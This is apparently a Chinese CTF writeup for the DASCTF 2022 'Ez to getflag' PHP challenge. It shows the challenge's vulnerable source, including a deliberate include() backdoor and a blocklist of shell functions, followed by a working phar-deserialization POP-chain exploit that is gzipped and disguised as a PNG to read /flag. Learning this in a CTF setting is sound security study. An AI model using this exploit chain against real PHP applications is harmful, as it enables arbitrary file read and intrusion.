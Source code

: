 ```yaml
---
title: DASCTF 2022 7月赋能赛 writeup
date: 2022-07-24 18:34:00
updated: 2022-07-24 18:34:00
tags: [ctf,security]
---
```

目前水平确实不足，下午看了几个小时的题目只出了一道web签到题，感觉这DAS的比赛纯粹为了CTF而出题，就像Ez to getflag这个题目，作为一个用户来说上传了一个1.png然后输入1.png查询查不到的话，这应该很难认为是个能用的web服务，纯ctf技巧题吧，比赛时候也做了非常久。

## Ez to getflag

一个文件上传的简单功能，总共俩接口 一个上传一个查询。
在接口/upload.php 的响应头中发现PHP/7.4.11。
查询接口有WAF 不能用`..`，但是可以读取源码。

源码
upload.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $upload = new Upload();
    $upload->uploadfile();
?>
```

file.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $filename = $_GET['f'];
    $show = new Show($filename);
    $show->show();
?>
```

class.php

```php
<?php
    class Upload {
        public $f;
        public $fname;
        public $fsize;
        function __construct(){
            $this->f = $_FILES;
        }
        function savefile() {  
            $fname = md5($this->f["file"]["name"]).".png";
            if(file_exists('./upload/'.$fname)) {
                @unlink('./upload/'.$fname);
            }
            move_uploaded_file($this->f["file"]["tmp_name"],"upload/" . $fname);
            echo "upload success! :D";
        }
        function __toString(){
            $cont = $this->fname;
            $size = $this->fsize;
            echo $cont->$size;
            return 'this_is_upload';
        }
        function uploadfile() {
            if($this->file_check()) {
                $this->savefile();
            }
        }
        function file_check() {
            $allowed_types = array("png");
            $temp = explode(".",$this->f["file"]["name"]);
            $extension = end($temp);
            if(empty($extension)) {
                echo "what are you uploaded? :0";
                return false;
            }
            else{
                if(in_array($extension,$allowed_types)) {
                    $filter = '/<\?php|php|exec|passthru|popen|proc_open|shell_exec|system|phpinfo|assert|chroot|getcwd|scandir|delete|rmdir|rename|chgrp|chmod|chown|copy|mkdir|file|file_get_contents|fputs|fwrite|dir/i';
                    $f = file_get_contents($this->f["file"]["tmp_name"]);
                    if(preg_match_all($filter,$f)){
                        echo 'what are you doing!! :C';
                        return false;
                    }
                    return true;
                }
                else {
                    echo 'png onlyyy! XP';
                    return false;
                }
            }
        }
    }
    class Show{
        public $source;
        public function __construct($fname)
        {
            $this->source = $fname;
        }
        public function show()
        {
            if(preg_match('/http|https|file:|php:|gopher|dict|\.\./i',$this->source)) {
                die('illegal fname :P');
            } else {
                echo file_get_contents($this->source);
                $src = "data:jpg;base64,".base64_encode(file_get_contents($this->source));
                echo "<img src={$src} />";
            }

        }
        function __get($name)
        {
            $this->ok($name);
        }
public function__call($name, $arguments)
        {
            if(end($arguments)=='phpinfo'){
                phpinfo();
            }else{
                $this->backdoor(end($arguments));
            }
            return $name;
        }
        public function backdoor($door){
            include($door);
            echo "hacked!!";
        }
        public function __wakeup()
        {
            if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
                die("illegal fname XD");
            }
        }
    }
    class Test{
        public $str;
public function__construct(){
            $this->str="It's works";
        }
        public function __destruct()
        {
            echo $this->str;
        }
    }
?>
```

由于show方法中file_get_contents()函数参数可控，我们可以通过phar伪协议来读取我们上传的phar格式的文件。这里我们通过构造POP链，通过反序列化控制`include($door)`中的参数，从而通过`include`函数包含`/flag`文件，来读取flag。

EXP:

```php
<?php include('class.php');


$t = new Test();
$t->str = new Upload();
$t->str->fname = new Show('1.png');
$t->str->fsize = '/flag';
// $poc = serialize($t);

$phar = new Phar('poc.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$phar->setMetadata($t);
$phar->stopBuffering();

// print($poc);
```

生成poc.phar文件

```bash
gzip poc.phar
```

使用gzip压缩来绕过对文件内容的检测，得到poc.phar.gz,改名为poc.png。

由于是采用文件名的md5值的方式，读取phar://./upload/ba48d64c6886e802cd5f65e99e8566ee.png即可。
![图 1](https://s2.loli.net/2022/07/24/k6PNqflvVX4xmSz.png)  

一些值得反思的地方：
1.为什么要用phar伪协议？因为题目不管你上传什么，都会给你的命名为md5.png,这样的话你虽然可以想办法传一个内容是png的php文件，比如说用`test.php%00.png`来绕过，这完全可以，但是却没办法当成php文件去执行。所以我们只能选择上传一个phar内容的文件，因为phar格式的文件即便是后缀被修改了，使用phar://这个伪协议读取，还是会按照phar的内容来解析的，甚至是用gzip压缩phar文件，修改后缀上传，也会自动解压一层并且按照phar内容来解析。

2.有没有办法实现RCE？这里只做到了任意文件读取，读取到了flag,有没有可能控制include的函数的参数为data伪协议或者file伪协议，来让include函数包含远程文件，从而实现RCE呢？题目中如果$door接收到参数为phpinfo，那么就会直接执行phpinfo()；借此我们可以查看环境变量中`allow_url_fopen = on` 和 `allow_url_include = off`，前者用于file_get_content，而后者用于`include`,因此我们没有办法通过控制include函数的参数来包含远程的文件。

复盘题目的过程中，在phpinfo中甚至可以找到从环境变量里面读进来的flag？？就离谱
![图 2](https://s2.loli.net/2022/07/24/uXbpDEMWyP7UhvC.png)  

??????不会出题建议是别出
![图 3](https://s2.loli.net/2022/07/24/VudLM3Oqe4DiHFt.png)  
